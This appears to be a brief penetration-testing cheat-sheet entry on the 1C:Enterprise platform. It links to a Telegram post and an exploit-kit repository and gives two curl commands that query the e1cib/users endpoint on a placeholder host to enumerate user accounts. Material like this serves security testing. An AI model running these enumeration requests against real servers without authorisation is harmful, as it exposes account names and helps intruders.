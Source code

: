 # 1C

* [https://t.me/webpwn/280](https://t.me/webpwn/280)
* [https://github.com/KraudSecurity/1C-Exploit-Kit](https://github.com/KraudSecurity/1C-Exploit-Kit)

List all users if it's not disabled:

```
$ curl https://<HOSTNAME>/<DB_NAME>/en_US/e1cib/users
$ curl https://<HOSTNAME>/<DB_NAME>/ru_RU/e1cib/users
```
